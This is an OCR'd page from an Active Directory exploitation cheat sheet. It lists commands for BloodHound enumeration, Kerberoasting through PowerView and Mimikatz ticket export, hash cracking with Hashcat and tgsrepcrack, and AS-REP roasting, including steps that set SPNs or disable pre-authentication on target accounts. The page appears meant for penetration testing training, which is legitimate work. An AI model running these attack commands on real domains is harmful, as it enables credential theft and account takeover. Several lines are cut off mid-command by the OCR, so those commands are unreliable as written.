 # Run all checks if you don't care about OpSec 🚩
Invoke-BloodHound -CollectionMethod All
# Running LoggedOn separately sometimes gives you more s
Invoke-BloodHound -CollectionMethod LoggedOn

Kerberoasting
Automatic
With PowerView

Request-SPNTicket -SPN "MSSQLSvc/dcorp-mgmt.dollarcorp.m

Crack the hash with Hashcat

hashcat -a 0 -m 13100 hash.txt `pwd`/rockyou.txt --rules

Manual
# Request TGS for kerberoastable account (SPN)
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestor
# Dump TGS to disk
https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

9/31

Invoke-Mimikatz -Command '"kerberos::list /export"'
# Crack with TGSRepCrack
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\mssql

Targeted kerberoasting by setting SPN
We need ACL write permissions to set UserAccountControl flags
for said user see above for hunting Using PowerView

Set-DomainObject -Identity support355user -Set @{service

AS REP roasting
Get the hash for a roastable user see above for hunting

Using

ASREPRoast.ps1

Get-ASREPHash -UserName VPN355user
Crack the hash with Hashcat
hashcat -a 0 -m 18200 hash.txt `pwd`/rockyou.txt --rules

Targeted AS REP roasting by disabling Kerberos pre
authentication
We need ACL write permissions to set UserAccountControl flags
for said user see above for hunting Uses PowerView
Set-DomainObject -Identity Control355User -XOR @{useracc
